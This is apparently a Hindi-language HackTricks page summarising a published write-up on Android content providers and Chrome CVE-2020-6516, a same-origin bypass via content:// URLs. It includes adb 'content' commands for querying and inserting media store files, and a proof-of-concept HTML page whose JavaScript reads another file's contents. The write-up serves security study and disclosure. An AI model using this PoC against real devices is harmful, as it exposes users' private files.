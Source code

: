{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

**यह [https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/](https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/) पोस्ट का सारांश है।**

### मीडिया स्टोर में फ़ाइलें सूचीबद्ध करना
मीडिया स्टोर द्वारा प्रबंधित फ़ाइलों को सूचीबद्ध करने के लिए, नीचे दिए गए कमांड का उपयोग किया जा सकता है:
```bash
$ content query --uri content://media/external/file
```
मनुष्य के अनुकूल आउटपुट के लिए, प्रत्येक अनुक्रमित फ़ाइल के केवल पहचानकर्ता और पथ को प्रदर्शित करना:
```bash
$ content query --uri content://media/external/file --projection _id,_data
```
सामग्री प्रदाता अपने निजी नामस्थान में अलग-थलग होते हैं। किसी प्रदाता तक पहुँचने के लिए विशिष्ट `content://` URI की आवश्यकता होती है। प्रदाता तक पहुँचने के लिए पथों की जानकारी एप्लिकेशन मैनिफेस्ट या Android ढांचे के स्रोत कोड से प्राप्त की जा सकती है।

### Chrome का सामग्री प्रदाताओं तक पहुँच
Android पर Chrome सामग्री प्रदाताओं तक `content://` योजना के माध्यम से पहुँच सकता है, जिससे यह तीसरे पक्ष के अनुप्रयोगों द्वारा निर्यात की गई फ़ोटो या दस्तावेज़ जैसी संसाधनों तक पहुँच प्राप्त कर सकता है। इसे स्पष्ट करने के लिए, एक फ़ाइल को मीडिया स्टोर में डाला जा सकता है और फिर Chrome के माध्यम से पहुँचा जा सकता है:

मीडिया स्टोर में एक कस्टम प्रविष्टि डालें:
```bash
cd /sdcard
echo "Hello, world!" > test.txt
content insert --uri content://media/external/file \
--bind _data:s:/storage/emulated/0/test.txt \
--bind mime_type:s:text/plain
```
नई डाली गई फ़ाइल का पहचानकर्ता खोजें:
```bash
content query --uri content://media/external/file \
--projection _id,_data | grep test.txt
# Output: Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```
फाइल को फिर Chrome में उस फाइल के पहचानकर्ता के साथ बनाए गए URL का उपयोग करके देखा जा सकता है।

उदाहरण के लिए, किसी विशेष एप्लिकेशन से संबंधित फाइलों की सूची बनाने के लिए:
```bash
content query --uri content://media/external/file --projection _id,_data | grep -i <app_name>
```
### Chrome CVE-2020-6516: Same-Origin-Policy Bypass

_समान मूल नीति_ (SOP) एक सुरक्षा प्रोटोकॉल है जो ब्राउज़रों में वेब पृष्ठों को विभिन्न मूलों से संसाधनों के साथ बातचीत करने से रोकता है जब तक कि इसे क्रॉस-ओरिजिन-रिसोर्स-शेयरिंग (CORS) नीति द्वारा स्पष्ट रूप से अनुमति नहीं दी जाती। इस नीति का उद्देश्य जानकारी के लीक और क्रॉस-साइट अनुरोध धोखाधड़ी को रोकना है। Chrome `content://` को एक स्थानीय योजना के रूप में मानता है, जिसका अर्थ है कि SOP नियम अधिक सख्त हैं, जहां प्रत्येक स्थानीय योजना URL को एक अलग मूल के रूप में माना जाता है।

हालांकि, CVE-2020-6516 एक कमजोर बिंदु था जो Chrome में `content://` URL के माध्यम से लोड किए गए संसाधनों के लिए SOP नियमों को बायपास करने की अनुमति देता था। प्रभावी रूप से, `content://` URL से JavaScript कोड अन्य संसाधनों तक पहुँच सकता था जो `content://` URLs के माध्यम से लोड किए गए थे, जो एक महत्वपूर्ण सुरक्षा चिंता थी, विशेष रूप से Android उपकरणों पर जो Android 10 से पहले के संस्करण चला रहे थे, जहां स्कोप्ड स्टोरेज लागू नहीं किया गया था।

नीचे दिए गए प्रमाण-का-धारणा इस कमजोर बिंदु को प्रदर्शित करता है, जहां एक HTML दस्तावेज़, जिसे **/sdcard** के तहत अपलोड किया गया है और मीडिया स्टोर में जोड़ा गया है, अपने JavaScript में `XMLHttpRequest` का उपयोग करके मीडिया स्टोर में एक अन्य फ़ाइल की सामग्री को एक्सेस और प्रदर्शित करता है, SOP नियमों को बायपास करते हुए।

Proof-of-Concept HTML:
```xml
<html>
<head>
<title>PoC</title>
<script type="text/javascript">
function poc()
{
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function()
{
if(this.readyState == 4)
{
if(this.status == 200 || this.status == 0)
{
alert(xhr.response);
}
}
}

xhr.open("GET", "content://media/external/file/747");
xhr.send();
}
</script>
</head>
<body onload="poc()"></body>
</html>
```
<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
